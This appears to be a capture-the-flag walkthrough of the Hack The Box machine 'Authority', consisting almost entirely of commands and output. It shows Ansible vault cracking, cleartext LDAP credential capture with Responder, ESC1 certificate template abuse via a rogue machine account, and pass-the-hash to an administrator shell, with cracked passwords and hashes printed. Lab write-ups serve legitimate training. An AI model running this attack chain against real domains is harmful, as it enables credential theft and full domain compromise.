


# Authority



```bash
$ smbclient -L //10.10.11.222 -N -I 10.10.11.222 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Department Shares Disk      
        Development     Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.222 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

```bash
$ mkdir smb
$ cd smb

$ smbclient //10.10.11.222/Development -N -I 10.10.11.222 
Try "help" to get a list of possible commands.
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
getting file \Automation\Ansible\ADCS\.ansible-lint of size 259 as Automation/Ansible/ADCS/.ansible-lint (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
getting file \Automation\Ansible\ADCS\.yamllint of size 205 as Automation/Ansible/ADCS/.yamllint (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
...
getting file \Automation\Ansible\ADCS\molecule\default\converge.yml of size 106 as Automation/Ansible/ADCS/molecule/default/converge.yml (0.3 KiloBytes/sec) (average 4.3 KiloBytes/sec)
getting file \Automation\Ansible\ADCS\molecule\default\molecule.yml of size 526 as Automation/Ansible/ADCS/molecule/default/molecule.yml (1.4 KiloBytes/sec) (average 4.2 KiloBytes/sec)
getting file \Automation\Ansible\ADCS\molecule\default\prepare.yml of size 371 as Automation/Ansible/ADCS/molecule/default/prepare.yml (1.0 KiloBytes/sec) (average 4.2 KiloBytes/sec)
smb: \> exit
```

/smb/Automation/Ansible/PWM/defaults/main.yml

```bash
pwm_admin_login: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          32666534386435366537653136663731633138616264323230383566333966346662313161326239
          6134353663663462373265633832356663356239383039640a346431373431666433343434366139
          35653634376333666234613466396534343030656165396464323564373334616262613439343033
          6334326263326364380a653034313733326639323433626130343834663538326439636232306531
          3438

pwm_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          31356338343963323063373435363261323563393235633365356134616261666433393263373736
          3335616263326464633832376261306131303337653964350a363663623132353136346631396662
          38656432323830393339336231373637303535613636646561653637386634613862316638353530
          3930356637306461350a316466663037303037653761323565343338653934646533663365363035
          6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63303831303534303266356462373731393561313363313038376166336536666232626461653630
          3437333035366235613437373733316635313530326639330a643034623530623439616136363563
          34646237336164356438383034623462323531316333623135383134656263663266653938333334
          3238343230333633350a646664396565633037333431626163306531336336326665316430613566
          3764
```

https://www.bengrewell.com/cracking-ansible-vault-secrets-with-hashcat/
https://exploit-notes.hdks.org/exploit/cryptography/algorithm/ansible-vault-secret/

```bash
$ ansible2john ansible_pwm_admin_login.vault > ansible_pwm_admin_login.hash
```

```bash
$ cat ansible_pwm_admin_login.hash          
ansible_pwm_admin_login.vault:$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8
```

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt ansible_pwm_admin_login.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 512/512 AVX512BW 16x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^&*         (ansible_pwm_admin_login.vault)     
1g 0:00:00:05 DONE (2024-05-03 10:29) 0.1953g/s 7800p/s 7800c/s 7800C/s 112500..prospect
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```bash
$ ansible-vault view ansible_pwm_admin_login.vault 
Vault password: !@#$%^&*
svc_pwm
```

Trying the same vault password `!@#$%^&*` for the other secrets

```bash
$ ansible-vault view ansible_pwm_admin_password.vault 
Vault password: !@#$%^&*
pWm_@dm!N_!23
```

```bash
$ ansible-vault view ansible_ldap_admin_password.vault 
Vault password: !@#$%^&*
DevT3st@123
```

```bash
$ sudo responder -I tun0 -wv       
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0
...
[+] Servers:
 ...
    LDAP server                [ON]
...

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.6]
    Responder IPv6             [dead:beef:2::1004]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-1SACZT1ZMEA]
    Responder Domain Name      [JO6N.LOCAL]
    Responder DCE-RPC Port     [49596]

[+] Listening for events...

[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
```



```bash
$ sudo responder -I tun0 -wv
...
[+] Listening for events...

[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
```

```bash
$ netexec winrm 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'           
WINRM       10.10.11.222    5985   AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb)
WINRM       10.10.11.222    5985   AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! (Pwn3d!)
```

```bash
$ evil-winrm -i 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_ldap\Documents>
```

```bash
$ evil-winrm -i 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> whoami /all

USER INFORMATION
----------------

User Name    SID
============ =============================================
htb\svc_ldap S-1-5-21-622327497-3269355298-2248959698-1601


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

```bash
*Evil-WinRM* PS C:\> cat C:\Users\svc_ldap\Desktop\user.txt
67d9a809fe568731efa0ca91c975ea01
```

```bash
$ certipy find -username svc_ldap@authority.htb -password 'lDaP_1n_th3_cle4r!' -dc-ip 10.10.11.222 -target 10.10.11.222 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://10.10.11.222:636 - ssl
[+] Default path: DC=authority,DC=htb
[+] Configuration path: CN=Configuration,DC=authority,DC=htb
[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[+] Trying to resolve 'authority.authority.htb' at '10.10.11.222'
[*] Trying to get CA configuration for 'AUTHORITY-CA' via CSRA
[+] Trying to get DCOM connection for: 10.10.11.222
[!] Got error while trying to get CA configuration for 'AUTHORITY-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[+] Connected to remote registry at 'authority.authority.htb' (10.10.11.222)
[*] Got CA configuration for 'AUTHORITY-CA'
[+] Resolved 'authority.authority.htb' from cache: 10.10.11.222
[+] Connecting to 10.10.11.222:80
[*] Saved BloodHound data to '20240503161745_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[+] Adding Domain Computers to list of current user's SIDs
[*] Saved text output to '20240503161745_Certipy.txt'
[*] Saved JSON output to '20240503161745_Certipy.json'
```

```bash
$ cat 20240503161745_Certipy.txt 
...
Certificate Templates
...
  1
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : AutoEnrollmentCheckUserDsCertificate
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Property Principals       : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'AUTHORITY.HTB\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
...
```

```bash
$ impacket-addcomputer -dc-ip 10.10.11.222 authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name KALI03 -computer-pass 'lDaP_c3Rt_cle4r!'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Successfully added machine account KALI03$ with password lDaP_c3Rt_cle4r!.
```

```bash
$ certipy req -username 'KALI03$@authority.htb' -password 'lDaP_c3Rt_cle4r!' -template CorpVPN -dc-ip 10.10.11.222 -ca AUTHORITY-CA -upn 'administrator@authority.htb' -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 7
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

```bash
$ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.222
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

```bash
$ sudo timedatectl set-ntp off
$ date; sudo ntpdate -u 10.10.11.222; date;
Fri May  3 05:24:15 PM PDT 2024
2024-05-03 21:24:15.470045 (-0700) +14399.957787 +/- 0.044338 10.10.11.222 s1 no-leap
CLOCK: time stepped by 14399.957787
Fri May  3 09:24:15 PM PDT 2024
```

```bash
$ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.222
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@authority.htb': aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed
```

```bash
$ netexec winrm 10.10.11.222 -u 'administrator' -H '6961f422924da90a6928197429eea4ed'
WINRM       10.10.11.222    5985   AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb)
WINRM       10.10.11.222    5985   AUTHORITY        [+] authority.htb\administrator:6961f422924da90a6928197429eea4ed (Pwn3d!)
```

```bash
$ evil-winrm -i 10.10.11.222 -u 'administrator' -H '6961f422924da90a6928197429eea4ed'
                                        
Evil-WinRM shell v3.5                 
...
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```

```bash
```

```bash
```

```bash
```
